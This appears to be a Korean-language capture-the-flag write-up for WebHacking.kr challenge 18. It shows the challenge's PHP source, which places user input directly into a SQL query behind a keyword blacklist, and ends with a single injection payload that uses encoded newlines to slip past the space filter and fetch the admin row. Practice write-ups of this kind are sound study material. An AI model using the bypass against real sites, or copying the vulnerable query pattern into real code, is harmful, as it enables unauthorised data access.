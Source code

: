 ```yaml
---
layout: default
title: Prob18
parent: WebHacking.kr
nav_order: 18
---
```


# Prob18

문제 사이트에 접속하면 input과 소스를 볼 수 있는 링크가 보인다.

![index](/assets/images/webhacking_kr/prob18/1.png)

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 18</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; }
a { color:lightgreen; }
</style>
</head>
<body>
<br><br>
<center><h1>SQL INJECTION</h1>
<form method=get action=index.php>
<table border=0 align=center cellpadding=10 cellspacing=0>
<tr><td><input type=text name=no></td><td><input type=submit></td></tr>
</table>
</form>
<a style=background:gray;color:black;width:100;font-size:9pt;><b>RESULT</b><br>
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
?>
</a>
<br><br><a href=?view_source=1>view-source</a>
</center>
</body>
</html>
```

SQL Injection을 통해 no가 2인 값을 가져오면 풀린다는 것을 알 수 있다.

Get으로 쿼리를 보내 풀면 된다.

0%0aor%0a1=1%0aand%0ano=2